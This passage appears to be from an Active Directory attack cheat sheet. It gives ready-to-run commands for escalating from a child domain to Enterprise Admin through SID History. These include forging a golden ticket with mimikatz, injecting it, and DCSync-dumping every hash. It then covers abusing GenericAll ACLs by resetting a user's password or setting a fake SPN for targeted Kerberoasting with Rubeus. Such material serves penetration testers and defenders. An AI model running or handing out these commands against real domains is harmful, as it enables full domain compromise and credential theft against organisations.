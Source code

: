 
### SID History

 If we manage to compromise a child domain of a forest and sid filtering isn't enabled (most of the times is not), we can abuse it to privilege escalate to Domain Administrator of the root domain of the forest. This is possible because of the sid history field on a kerberos TGT ticket, that defines the "extra" security groups and privileges.
 
```
#Get the SID of the Current Domain using PowerView
Get-DomainSID -Domain current.root.domain.local

#Get the SID of the Root Domain using PowerView
Get-DomainSID -Domain root.domain.local

#Create the Enteprise Admins SID
Format: RootDomainSID-519

#Forge "Extra" Golden Ticket using mimikatz
kerberos::golden /user:Administrator /domain:current.root.domain.local /sid:<CurrentDomainSID> /krbtgt:<krbtgtHash> /sids:<EnterpriseAdminsSID> /startoffset:0 /endin:600 /renewmax:10080 /ticket:\path\to\ticket\golden.kirbi

#Inject the ticket into memory
kerberos::ptt \path\to\ticket\golden.kirbi

#List the DC of the Root Domain
dir \\dc.root.domain.local\C$

#Or DCsync and dump the hashes using mimikatz
lsadump::dcsync /domain:root.domain.local /all

```

### Abusing ACLs

##### Generic All on User

Using powerview, let's check if our attacking user `spotless` has `GenericAll rights` on the AD object for the user `delegate`

```
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}  
```

- **Change password**: You could just change the password of that user with

```
net user <username> <password> /domain
```

- **Targeted Kerberoasting**: You could make the user **kerberoastable** setting an **SPN** on the account, kerberoast it and attempt to crack offline

```
# Set SPN
Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
# Get Hash
.\Rubeus.exe kerberoast /user:<username> /nowrap
# Clean SPN
Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
```
